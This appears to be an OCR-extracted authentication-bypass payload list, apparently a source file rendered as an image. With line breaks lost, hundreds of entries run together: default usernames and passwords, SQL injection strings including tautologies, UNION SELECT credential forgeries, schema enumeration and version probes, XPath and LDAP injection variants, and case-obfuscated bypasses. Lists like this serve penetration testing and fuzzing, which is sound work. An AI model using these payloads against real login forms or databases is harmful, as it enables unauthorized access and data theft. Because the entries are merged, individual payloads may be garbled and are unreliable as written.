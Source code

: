         adminpassword1234123456roottoortestguest' or '1'='1' or ''='' or 1]%00' or /* or '' or "a" or '' or 1 or '' or true() or ''or string-length(name(.))<10 or''or contains(name,'adm') or''or contains(.,'adm') or''or position()=2 or'admin' or 'admin' or '1'='2**)(&*)(|(&pwd)*)(|(**))%00admin)(&)pwdadmin)(!(&(|pwd))admin))(|(|1234'-'' ''&''^''*'' or ''-'' or '' '' or ''&'' or ''^'' or ''*'"-"" ""&""^""*"" or ""-"" or "" "" or ""&"" or ""^"" or ""*"or true--" or true--' or true--") or true--') or true--' or 'x'='x') or ('x')=('x')) or (('x'))=(('x" or "x"="x") or ("x")=("x")) or (("x"))=(("xor 1=1or 1=1--or 1=1\#or 1=1/*admin' --admin' \#admin'/*admin' or '1'='1admin' or '1'='1'--admin' or '1'='1'#admin' or '1'='1'/*admin'or 1=1 or ''='admin' or 1=1admin' or 1=1--admin' or 1=1#admin' or 1=1/*admin') or ('1'='1admin') or ('1'='1'--admin') or ('1'='1'#admin') or ('1'='1'/*admin') or '1'='1admin') or '1'='1'--admin') or '1'='1'#admin') or '1'='1'/*1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed0551234 ' AND 1=0 UNION ALL SELECT 'admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220admin" --admin" #admin"/*admin" or "1"="1admin" or "1"="1"--admin" or "1"="1"#admin" or "1"="1"/*admin"or 1=1 or ""="admin" or 1=1admin" or 1=1--admin" or 1=1#admin" or 1=1/*admin") or ("1"="1admin") or ("1"="1"--admin") or ("1"="1"#admin") or ("1"="1"/*admin") or "1"="1admin") or "1"="1"--admin") or "1"="1"#admin") or "1"="1"/*1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed0551234 " AND 1=0 UNION ALL SELECT "admin", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220==='' --' #' –'--'/*'#" --" #"/*' and 1='1' and a='aor true' or ''='" or ""="1′) and '1′='1–' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055' AND 1=0 UNION ALL SELECT '', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220" AND 1=0 UNION ALL SELECT "", "7110eda4d09e062aa5e4a390b0a572ac0d2c0220and 1=1and 1=1–' and 'one'='one' and 'one'='one–' group by password having 1=1--' group by userid having 1=1--' group by username having 1=1--like '%'or 0=0 --or 0=0 #or 0=0 –' or         0=0 #' or 0=0 --' or 0=0 #' or 0=0 –" or 0=0 --" or 0=0 #" or 0=0 –%' or '0'='0or 1=1–' or 1=1--' or '1'='1' or '1'='1'--' or '1'='1'/*' or '1'='1'#' or '1′='1' or 1=1' or 1=1 --' or 1=1 –' or 1=1;#' or 1=1/*' or 1=1#' or 1=1–') or '1'='1') or '1'='1--') or '1'='1'--') or '1'='1'/*') or '1'='1'#') or ('1'='1') or ('1'='1--') or ('1'='1'--') or ('1'='1'/*') or ('1'='1'#'or'1=1'or'1=1′" or "1"="1" or "1"="1"--" or "1"="1"/*" or "1"="1"#" or 1=1" or 1=1 --" or 1=1 –" or 1=1--" or 1=1/*" or 1=1#" or 1=1–") or "1"="1") or "1"="1"--") or "1"="1"/*") or "1"="1"#") or ("1"="1") or ("1"="1"--") or ("1"="1"/*") or ("1"="1"#) or '1′='1–) or ('1′='1–' or 1=1 LIMIT 1;#'or 1=1 or ''='"or 1=1 or ""="' or a=a--' or a=a–" or "a"="a") or ("a"="a') or ('a'='a and hi") or ("a"="a' or 'one'='one' or 'one'='one–' or uid like '%' or uname like '%' or userid like '%' or user like '%' or username like '%') or ('x'='x' OR 'x'='x'#;'=' 'or' and '=' 'or'' UNION ALL SELECT 1, @@version;#' UNION ALL SELECT system_user(),user();#' UNION select table_schema,table_name FROM information_Schema.tables;#admin' and substring(password/text(),1,1)='7' and substring(password/text(),1,1)='7"'-- 2"-- 2'='0'&lt;'2"="0"&lt;"2')")')-- 2')/*')#")-- 2") #")/*')-('')&('')^('')*('')=('0')&lt;('2")-("")&("")^("")*("")=("0")&lt;("2'-''-- 2'-''#'-''/*'&''-- 2'&''#'&''/*'^''-- 2'^''#'^''/*'*''-- 2'*''#'*''/*'=''-- 2'=''#'=''/*0'&lt;'2'-- 20'&lt;'2'\#0'&lt;'2'/*"-""-- 2"-""#"-""/*"&""-- 2"&""#"&""/*"^""-- 2"^""#"^""/*"*""-- 2"*""#"*""/*"=""-- 2"=""#"=""/*0"&lt;"2"-- 20"&lt;"2"#0"&lt;"2"/*')-''-- 2')-''#')-''/*')&''-- 2')&''#')&''/*')^''-- 2')^''#')^''/*')*''-- 2')*''#')*''/*')=''-- 2')=''#')=''/*0')&lt;'2'-- 20')&lt;'2'#0')&lt;'2'/*")-""-- 2")-""#")-""/*")&""-- 2")&""#")&""/*")^""-- 2")^""#")^""/*")*""-- 2")*""#")*""/*")=""-- 2")=""#")=""/*0")&lt;"2-- 20")&lt;"2#0")&lt;"2/*'oR'2'oR'2'-- 2'oR'2'#'oR'2'/*'oR'2'oR''oR(2)-- 2'oR(2)#'oR(2)/*'oR(2)oR''oR 2-- 2'oR 2#'oR 2/*'oR 2 oR''oR/**/2-- 2'oR/**/2#'oR/**/2/*'oR/**/2/**/oR'"oR"2"oR"2"-- 2"oR"2"#"oR"2"/*"oR"2"oR""oR(2)-- 2"oR(2)#"oR(2)/*"oR(2)oR""oR 2-- 2"oR 2#"oR 2/*"oR 2 oR""oR/**/2-- 2"oR/**/2#"oR/**/2/*"oR/**/2/**/oR"'oR'2'='2'oR'2'='2'oR''oR'2'='2'-- 2'oR'2'='2'#'oR'2'='2'/*'oR 2=2-- 2'oR 2=2#'oR 2=2/*'oR 2=2 oR''oR/**/2=2-- 2'oR/**/2=2#'oR/**/2=2/*'oR/**/2=2/**/oR''oR(2)=2-- 2'oR(2)=2#'oR(2)=2/*'oR(2)=(2)oR''oR'2'='2' LimIT 1-- 2'oR'2'='2' LimIT 1#'oR'2'='2' LimIT 1/*'oR(2)=(2)LimIT(1)-- 2'oR(2)=(2)LimIT(1)#'oR(2)=(2)LimIT(1)/*"oR"2"="2"oR"2"="2"oR""oR"2"="2"-- 2"oR"2"="2"#"oR"2"="2"/*"oR 2=2-- 2"oR 2=2#"oR 2=2/*"oR 2=2 oR""oR/**/2=2-- 2"oR/**/2=2#"oR/**/2=2/*"oR/**/2=2/**/oR""oR(2)=2-- 2"oR(2)=2#"oR(2)=2/*"oR(2)=(2)oR""oR"2"="2" LimIT 1-- 2"oR"2"="2" LimIT 1#"oR"2"="2" LimIT 1/*"oR(2)=(2)LimIT(1)-- 2"oR(2)=(2)LimIT(1)#"oR(2)=(2)LimIT(1)/*'oR true-- 2'oR true#'oR true/*'oR true oR''oR(true)-- 2'oR(true)#'oR(true)/*'oR(true)oR''oR/**/true-- 2'oR/**/true#'oR/**/true/*'oR/**/true/**/oR'"oR true-- 2"oR true#"oR true/*"oR true oR""oR(true)-- 2"oR(true)#"oR(true)/*"oR(true)oR""oR/**/true-- 2"oR/**/true#"oR/**/true/*"oR/**/true/**/oR"'oR'2'LiKE'2'oR'2'LiKE'2'-- 2'oR'2'LiKE'2'#'oR'2'LiKE'2'/*'oR'2'LiKE'2'oR''oR(2)LiKE(2)-- 2'oR(2)LiKE(2)#'oR(2)LiKE(2)/*'oR(2)LiKE(2)oR'"oR"2"LiKE"2"oR"2"LiKE"2"-- 2"oR"2"LiKE"2"#"oR"2"LiKE"2"/*"oR"2"LiKE"2"oR""oR(2)LiKE(2)-- 2"oR(2)LiKE(2)#"oR(2)LiKE(2)/*"oR(2)LiKE(2)oR"adminadmin'-- 2admin'#admin"-- 2admin"\#ffifdyop' UniON SElecT 1,2-- 2' UniON SElecT 1,2,3-- 2' UniON SElecT 1,2,3,4-- 2' UniON SElecT 1,2,3,4,5-- 2' UniON SElecT 1,2#' UniON SElecT 1,2,3#' UniON SElecT 1,2,3,4#' UniON SElecT 1,2,3,4,5#'UniON(SElecT(1),2)-- 2'UniON(SElecT(1),2,3)-- 2'UniON(SElecT(1),2,3,4)-- 2'UniON(SElecT(1),2,3,4,5)--